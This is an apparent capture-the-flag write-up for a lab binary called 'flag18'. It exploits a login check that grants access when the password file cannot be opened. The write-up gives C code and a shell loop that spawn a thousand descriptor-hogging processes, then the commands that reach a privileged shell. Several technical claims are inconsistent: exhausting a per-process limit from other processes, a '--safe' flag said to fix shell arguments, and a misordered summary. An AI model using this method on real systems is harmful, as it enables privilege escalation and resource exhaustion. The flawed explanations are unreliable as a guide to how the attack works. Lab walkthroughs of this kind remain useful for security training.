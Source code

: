
---
### 📘 Overview

> The binary `flag18` manages shell access via a global flag. Normally, authentication through a password file is required to flip this flag.  
> However, if the file can’t be opened, the program grants access **anyway**.
> 
> Our mission? Exploit this flawed logic by **starving the process of file descriptors**.

**User:** `level18`  
**Target Binary:** `/home/flag18/flag18`  
**Privilege Escalation Goal:** Gain access to shell as `flag18` by triggering the fallback login path.

---

### 🔍 Vulnerability Mechanics

Inside the source code, the login logic operates as follows:

```c
fp = fopen(PWFILE, "r");
if (fp) {
   // Validate password...
} else {
   globals.loggedin = 1;  // Bypass triggered if file can't be opened
}
```

🚨 The problem is clear:

- If the **password file can’t be opened**, the user is **still logged in**.
    
- The assumption is that the file **always opens** — which we’ll break.
    

---

### 🧨 Exploit Concept

The Linux kernel enforces a **limit on open file descriptors per process**. If we **saturate the system with open files**, the vulnerable program won’t be able to `fopen()` the password file — triggering the insecure fallback behavior.

---

### 🧪 Step-by-Step Attack Plan

---

#### 🔧 Step 1: Saturate File Descriptors

We’ll build a small C program to open hundreds (or thousands) of files:

```c
// filed.c
#include <fcntl.h>
#include <stdio.h>
#include <unistd.h>

int main() {
    for (int i = 0; i < 4096; i++) {
        open("/dev/null", O_RDONLY);
    }
    pause();  // keep process alive
    return 0;
}
```

Compile and deploy many instances:

```bash
gcc filed.c -o filed
for i in $(seq 1 1000); do ./filed & done
```

📌 This opens thousands of file descriptors across processes.

---

#### 🧪 Step 2: Launch the Vulnerable Binary

Open a second terminal and run:

```bash
./flag18 -d /dev/tty -v
```

🔸 This enables debug mode with verbose output.

At the prompt, type:

```bash
login
```

✅ If file descriptors are properly exhausted, the program **can’t read the password file** — and logs you in **without any password**.

---

#### ⚠️ Step 3: Prevent Shell Argument Breakage

The program later calls `/bin/sh` via:

```c
execve("/bin/sh", argv, envp);
```

But `argv` includes `-d /dev/tty -v`, which are **invalid shell arguments** and cause a crash.

Fix this by prepending a benign dummy flag:

```bash
./flag18 --safe -d /dev/tty -v
```

This tricks the shell into ignoring the dangerous flags.

---

#### 🚪 Step 4: Free Up the Descriptors

Once you’re logged in:

```bash
killall filed
```

This clears the exhaustion state so the shell can spawn successfully.

Then run:

```bash
shell
```

🥁 You now have a shell as `flag18`.

---

#### 🏁 Step 5: Claim the Prize

```bash
getflag
```

✅ Output:

```
You have successfully executed getflag on a target account
```

---

### 🧩 Exploit Flow Summary

```
1. Saturate the system with open FDs via mass processes
2. Launch ./flag18 using a harmless dummy flag
3. Trigger fallback login by exhausting file descriptors
4. Kill mass file opener processes
5. Launch 'shell' cleanly
6. Extract the flag with 'getflag'
```

---

### 📚 Lessons Learned

- **Exploiting assumptions** in code paths (e.g., “file will always open”) is a powerful tactic.
    
- Understanding Linux internals like **file descriptor limits** can open unexpected attack vectors.
    
- **Resource exhaustion** is not just a DoS — it can lead to **logic bypasses** and privilege escalation.
    
- Sometimes, **fixing argument vectors** can be as critical as the exploit itself.
    

---

